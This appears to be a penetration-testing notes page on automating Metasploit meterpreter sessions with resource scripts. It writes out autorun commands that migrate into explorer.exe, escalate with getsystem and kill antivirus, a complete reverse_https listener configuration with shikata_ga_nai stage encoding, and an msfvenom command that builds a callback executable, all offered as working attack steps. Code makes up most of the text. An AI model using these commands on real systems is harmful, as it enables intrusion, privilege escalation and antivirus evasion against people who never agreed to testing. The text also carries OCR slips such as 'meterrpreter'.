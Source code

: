 #### put the meterpreter commands in a .rc file setup meter and set the autorun script path:.

example:

#### migrate o explorer.exe and dump system credential

```
set AutoRunScript  /root/autoruncommands.rc

migrate -N explorer.exe
getsystem
run post/windows/manage/killav
run post/windows/gather/checkvm
getuid
```

we can automate the whole thing too.

For example, using a standard editor, we will create a script in our home directory named setup.rc. In this script, we will set the payload to windows/meterpreter/reverse\_https and configure the relevant LHOST and LPORT parameters. We also enable stage encoding using the x86/shikata\_ga\_nai encoder and configure the post/windows/manage/migrate module to be executed automatically using the AutoRunScript option. This will cause the spawned meterpreter to automatically launch a background notepad.exe process and migrate to it. Finally, the ExitOnSession parameter is set to “false” to ensure that the listener keeps accepting new connections and the module is executed with the -j and -z flags to stop us from automatically interacting with the session. The commands for this are as follows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

```
sudo msfconsole -r setup.rc
```

With the listener configured and running, we can, for example, launch an executable containing a meterpreter payload from our Windows VM. We can create this executable with msfvenom :

```
msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.4 LPORT=443 -f exe -o met.exe
```

When executed, our multi/handler accepts the connection

we can specify scripts manually after getting a session:

```
meterrpreter> resource script.rc
```
